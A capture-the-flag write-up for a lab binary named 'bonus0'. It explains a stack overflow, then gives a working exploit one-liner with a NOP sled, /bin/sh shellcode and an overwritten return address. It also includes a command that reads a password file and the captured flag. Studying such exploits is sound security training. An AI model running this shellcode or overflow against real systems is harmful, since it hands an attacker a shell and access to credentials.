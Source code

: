 # Bonus 0

This time the executable takes 2 inputs and copies the first 20 characters in a 20 character array. It replacse the terminating newline character by a null byte but it still copies only the 20 first bytes so if there is no \n in the first 20 characters it will not put one in the final buffer. We will use a NOP slope to place our shellcode somewhere in the memory so we do not need to pinpoint the exact address of the shellcode which will make it easier to not have any \x00 in the final address. Then we want to overflow in  EIP pointer and put any address within the NOP slope before the shellcode.

```bash
(python -c 'print "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print " " * 9 + "\xf0\xe6\xff\xbf" + "N" * 42'; cat) | ./bonus0
```
``cat /home/user/bonus1/.pass``

**Flag:** `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
